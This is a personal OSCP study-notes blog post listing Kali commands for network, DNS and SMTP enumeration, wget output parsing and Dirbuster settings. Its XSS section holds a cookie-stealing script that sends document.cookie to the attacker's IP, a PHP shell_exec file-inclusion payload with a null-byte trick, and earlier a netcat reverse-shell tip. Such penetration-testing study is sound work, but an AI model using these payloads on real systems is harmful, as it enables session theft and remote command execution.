 ```yaml
---
layout: post
title: OSCP Notes
---
```


## BLUF  
"Bottom Line Up Front" for the non-military types. Honestly I just want to get my notes onto the interwebs and off my VM. I've 
done a lot of bash scripting in OSCP that is super useful, but I can't always remember the syntax. Here's to fixing that. I'll do another blog post tomorrow when I'm not half asleep.  
Edit: After posting this my JS XSS tester executed. Kinda surprising that Github lets you incorporate XSS into a site they host. 
Maybe it's just a don't ask don't tell policy? Gotta put some filler in to stop the code from executing since it would probably 
freak out any onlookers.

## Meat and Potatoes  

### Starting OSCP Work  

- Example OpenVPN firewall - /usr/share/doc/openvpn/examples/sample-config-files/firewall.sh
- Add firewall rules - iptables -A INPUT -p tcp --dport 4444 -j ACCEPT
- Plink (used for something... I don't remember) /usr/share/windows-binaries/plink.exe
- Keepnote for note taking on boxes
- If there is firewall issues, try pushing the cmd line from the remote host by passing nc -nv [IP] [Port] -e cmd.exe from remote end and setting up a listener to catch it
- Recon-ng for passive information gathering

### NMAP/ NC Info Gathering  

- root@kali:~/OSCP# nc -nvv -w 1 -z 10.11.23.156 3385-3395 (full TCP handshake scan using NC)
- root@kali:~/OSCP# nc -unvv -w 1 -z 10.11.23.156 160-165 (UDP scan using NC)
- /usr/share/nmap (location of nmap config files)

Get top UDP ports (over .01 usage according to NMAP)  
- cat /usr/share/nmap/nmap-services | grep '/udp'| cut -f2,3 -d$'\t'| sort -k2 -r | head -n 80 | cut -f1 -d'/'

### DNS  

- host -t ns [domain_name] (to find name servers for given domain)
- host -t mx [domain_name] (to find mail exchange servers for given domain)
- for ip in $(cat NMAP/alives.txt); do dnsrecon -d $ip -t axfr; done

### SMTP/MIB  

- cat mib-values | cut -f1 -d$'\t' (to cut from tab delimited)
- tail -n +1 10.* (cat all files in a directory with the filename as a header)
- for ip in $(cat smtp-open.txt); do for user in $(cat users.txt) ; do ./vrfy.py $ip $user; done; done | grep ^"250" > smtp_open_connected_users & (to find SMTP users who have successfully connected)
- for ip in $(cat NMAP/alives.txt); do nc -nv $ip 25; done (to test SMTP connection using nc [not as good as python script])
- for ip in $(ls | cut -c1-11 | uniq); do mkdir $ip ; done (to creat folders for each ip address in the SNMP directory)

### WGET  
To find the ips with information returned from WGET  
- tail -n +1 ./WGET/*/* | grep connected | cut -f3 -d' '| sort -u | cut -f4 -d'.' | cut -f1 -d':' | sort -u > ./WGET/web_vuln_ips
 
For moving vulnerable IPs to seperate folder  
- for ip in $(cat web_vuln_ips); do  mv 10.11.1.$ip 'Vulnerable Servers'; done 

To get list of vulnerable files downloaded  
- for ip in $(cat ./WGET/web_vuln_ips); do  tail -n +1 ./WGET/$ip/* | grep 10.11.1.$ip/; done

### XSS Commands

To test JS XSS vulnerability (the leading / are to prevent execution on github)
- </iframe SRC="(use your IP):(Port to listen on) /report" height="0" width="0"></iframe></script>alert("XSS through Javascript, success");</script>

Cookie Stealing Inject  
- </script>new Image().src="http://(use your IP):81 /bogus.php?output="+document.cookie;</script>

Malicious php code to host on local box  
- echo '<?php echo shell_exec("ipconfig");?>' > /var/www/html/evil.txt

Then place the appropriate url in place of the php element  
- http://(local ip)/evil.txt  

Then monitor Apache log once the above has been placed in URL
- tail -f /var/log/apache2/access.log  

If php is adding unnecessary values, php 5.3 and below are vulnerable to terminating characters with null character
- http://(local ip)/evil.txt%00  
  
### Dirbuster  
- Wordlist - /usr/share/dirbuster/wordlists/directory-list-1.0.txt (one shown in OSCP video)
- Deselect "Brute Force Files" & "Be Recursive"
- Set number of threads to 70+
